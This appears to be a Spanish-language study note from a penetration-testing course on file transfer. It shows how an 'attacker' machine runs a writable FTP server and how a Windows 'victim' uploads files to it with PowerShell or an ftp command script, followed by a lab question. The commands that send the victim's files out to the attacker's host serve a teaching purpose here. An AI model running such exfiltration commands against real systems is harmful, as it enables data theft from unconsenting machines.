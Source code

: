 | Rol          | Descripción                                                                   |
| ------------ | ----------------------------------------------------------------------------- |
| **Atacante** | Máquina que ejecuta el servidor FTP. En el ejemplo: `192.168.49.128`.         |
| **Víctima**  | Máquina Windows que se conecta al servidor FTP para subir archivos: `C:\htb`. |

##### 1. Configuración del servidor FTP (Atacante)
1. **Iniciar servidor FTP con Python**:
    `sudo python3 -m pyftpdlib --port 21 --write`
    - `--write`: permite que los clientes suban archivos.
    - Advertencia: asignar permisos de escritura a usuarios anónimos puede ser riesgoso.
2. **Salida típica**:
    `>>> starting FTP server on 0.0.0.0:21`
    
##### 2. Subida de archivos desde la máquina víctima (Windows)

###### a) Usando PowerShell
```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
```
- El primer parámetro: URL del servidor FTP (atacante).
- El segundo parámetro: archivo local a subir (víctima).
###### b) Usando cliente FTP y archivo de comandos
1. Crear archivo de comandos `ftpcommand.txt`:
```
echo open 192.168.49.128 > ftpcommand.txt echo USER anonymous >> ftpcommand.txt echo binary >> ftpcommand.txt echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt echo bye >> ftpcommand.txt`


```
2. Ejecutar FTP con script:
```
ftp -v -n -s:ftpcommand.txt`
```
- `-s:ftpcommand.txt` indica al cliente que use los comandos del archivo.
- Comandos importantes dentro del script:
    - `USER anonymous`: logueo anónimo.
    - `PUT <archivo>`: sube el archivo al servidor FTP.
    
Resumen:
	La **máquina atacante** monta un servidor FTP que permite escritura.
	La **máquina víctima** se conecta para subir archivos usando PowerShell o cliente FTP.
	Este método es útil cuando se quieren transferir archivos a través de **TCP/21**, especialmente si SMB/WebDAV no están disponibles.

-----------
**QUESTIONS**
**Target(s): 10.129.191.98 (ACADEMY-MISC-MS02)**
**1. Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.
